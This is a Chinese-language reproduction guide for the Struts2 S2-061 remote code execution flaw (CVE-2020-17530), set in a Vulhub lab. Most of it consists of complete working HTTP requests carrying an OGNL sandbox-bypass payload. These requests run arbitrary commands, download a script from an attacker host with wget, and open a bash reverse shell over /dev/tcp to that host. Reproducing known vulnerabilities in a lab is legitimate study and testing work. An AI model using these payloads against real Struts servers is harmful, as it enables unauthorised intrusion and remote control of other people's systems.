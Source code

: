 # Struts2 S2-061 远程代码执行漏洞 CVE-2020-17530

## 漏洞描述

S2-061是对S2-059的绕过，Struts2官方对S2-059的修复方式是加强OGNL表达式沙盒，而S2-061绕过了该沙盒。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-061
- https://github.com/ka1n4t/CVE-2020-17530
- https://www.anquanke.com/post/id/225252
- https://mp.weixin.qq.com/s/RD2HTMn-jFxDIs4-X95u6g

## 影响版本

影响版本: Struts 2.0.0 - Struts 2.5.25

## 环境搭建

Vulhub执行以下命令启动s2-061测试环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/index.action`查看到首页。

## 漏洞复现

发送如下数据包，即可执行`id`命令：

```
POST /index.action HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

可见，`id`命令返回结果将直接显示在页面中：

![image-20220302141415253](./images/202203021414376.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
POST /index.action HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 858

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("wget 192.168.174.128/shell.sh")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

执行shell.sh文件的命令为：

```
bash shell.sh
```

执行shell.sh文件的Payload为：

```
POST /index.action HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 842

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash shell.sh")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

成功接收反弹shell：

![image-20220302141455009](./images/202203021414092.png)

